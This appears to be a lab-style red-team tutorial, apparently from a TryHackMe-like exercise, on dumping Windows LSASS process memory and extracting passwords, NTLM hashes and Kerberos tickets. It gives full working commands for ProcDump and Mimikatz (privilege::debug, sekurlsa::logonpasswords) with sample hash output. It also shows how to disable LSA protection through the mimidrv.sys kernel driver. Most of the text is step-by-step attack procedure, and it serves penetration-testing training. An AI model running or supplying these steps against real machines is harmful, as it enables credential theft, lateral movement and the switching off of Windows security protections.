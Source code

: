 # What is LSASS?

**Local Security Authority Subsystem Service (LSASS)** is a Windows process responsible for enforcing the operating system's security policy. It verifies logged-in accounts and manages credentials such as passwords, hashes, and Kerberos tickets. LSASS stores these credentials in memory, allowing users to access network resources (e.g., file shares, SharePoint sites) without re-entering credentials each time.

Because LSASS holds sensitive credential information, it is a prime target for red teamers. Attackers often attempt to dump LSASS memory to escalate privileges, steal data, or move laterally within a network. If you have administrator privileges, you can create a dump file (a snapshot of the process memory) using either the Windows GUI or the command prompt. This attack is tracked in the MITRE ATT&CK framework as **OS Credential Dumping: LSASS Memory (T1003)**.

---

## Dumping LSASS Memory

### Using the GUI (Task Manager)

1. Open **Task Manager**.
2. Go to the **Details** tab.
3. Find `lsass.exe`, right-click, and select **Create dump file**.

After dumping, a pop-up will show the file path. Copy the dump file and transfer it to your attack machine for offline analysis.

> **Note:** On some VMs, you may get an error until you adjust the registry value in the Protected LSASS section.

**Example: Copying the Dumped File**
```shell
copy C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP C:\Tools\Mimikatz\lsass.DMP
```

---

### Using Sysinternals ProcDump

If the GUI is unavailable, use **ProcDump** from the Sysinternals Suite (located at `C:\Tools\SysinternalsSuite`):

```shell
c:\> c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump
```

Sample output:
```
[09:09:33] Dump 1 initiated: c:\Tools\Mimikatz\lsass_dump-1.dmp
[09:09:34] Dump 1 complete: 163 MB written in 0.4 seconds
```

> **Note:** Dumping LSASS is a known attack technique and may be flagged by antivirus products.

---

## Extracting Credentials with Mimikatz

**Mimikatz** is a post-exploitation tool for extracting passwords, hashes, PINs, and Kerberos tickets from memory. It requires administrator or SYSTEM privileges.

1. Open a command prompt as administrator.
2. Navigate to the Mimikatz folder (`C:\Tools\Mimikatz`).
3. Run `mimikatz.exe`.

```shell
C:\Tools\Mimikatz> mimikatz.exe
```

Enable debug privileges:
```
mimikatz # privilege::debug
Privilege '20' OK
```

Dump cached credentials and hashes:
```
mimikatz # sekurlsa::logonpasswords
```

Sample output:
```
Authentication Id : 0 ; 515377 (00000000:0007dd31)
User Name         : Administrator
Domain            : THM
NTLM              : 98d3a787a80d08385cea7fb4aa2a4261
...
```

> **Note:** The user must have logged in for their credentials to be cached.

---

## Protected LSASS

Since 2012, Microsoft has implemented LSA protection to prevent credential extraction from LSASS. This is controlled by the `RunAsPPL` registry value at:

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
```

If LSA protection is enabled, `sekurlsa::logonpasswords` will fail with an access denied error (`0x00000005`).

### Bypassing LSA Protection with Mimikatz Driver

Mimikatz provides a kernel driver (`mimidrv.sys`) to disable LSA protection:

1. Load the driver:
    ```
    mimikatz # !+
    ```
    Output:
    ```
    [*] 'mimidrv' service not present
    [+] 'mimidrv' service successfully registered
    [+] 'mimidrv' service started
    ```

    > If you get an `isFileExist` error, exit Mimikatz, navigate to `C:\Tools\Mimikatz\`, and try again.

2. Remove LSA protection:
    ```
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

3. Retry dumping credentials:
    ```
    mimikatz # sekurlsa::logonpasswords
    ```

You should now be able to extract cached credentials from memory.
